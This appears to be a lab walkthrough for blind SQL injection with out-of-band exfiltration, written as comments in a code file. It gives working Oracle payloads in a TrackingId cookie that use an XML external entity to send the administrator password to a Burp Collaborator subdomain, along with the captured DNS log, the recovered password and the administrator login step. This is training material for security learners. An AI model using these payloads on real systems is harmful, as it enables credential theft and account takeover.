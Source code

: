 

```py
# Visit the front page of the shop
# use Burp Suite Professional to intercept and modify the request containing the TrackingId cookie.

# Burp menu > launch the Burp Collaborator client.

# Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.

# Modify the TrackingId cookie, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated:
TrackingId=x'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--

TrackingId=x'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.299hf6gydz6v0ym9pulb5wyvimofc4.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--

TrackingId=x'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.8mvwhecl9q6rmwlx5kts5jg28tej28.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--




# send


# Go back to the Burp Collaborator client window, and click "Poll now".

# If you don't see any interactions listed, wait a few seconds and try again, since the server-side query is executed asynchronously.

# You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

# The password of the administrator user should appear in the subdomain of the interaction, and you can view this within the Burp Collaborator client.

# For DNS interactions, the full domain name that was looked up is shown in the Description tab. For HTTP interactions, the full domain name is shown in the Host header in the Request to Collaborator tab.


# Go to the "Account login" function of the lab, and use the password to log in as the administrator user.



# The Collaborator server received a DNS lookup of type A for the domain name nu964b0kdd4qm1zfony7.8mvwhecl9q6rmwlx5kts5jg28tej28.burpcollaborator.net.  The lookup was received from IP address 3.248.186.15 at 2020-Nov-21 00:11:57 UTC.

nu964b0kdd4qm1zfony7
```
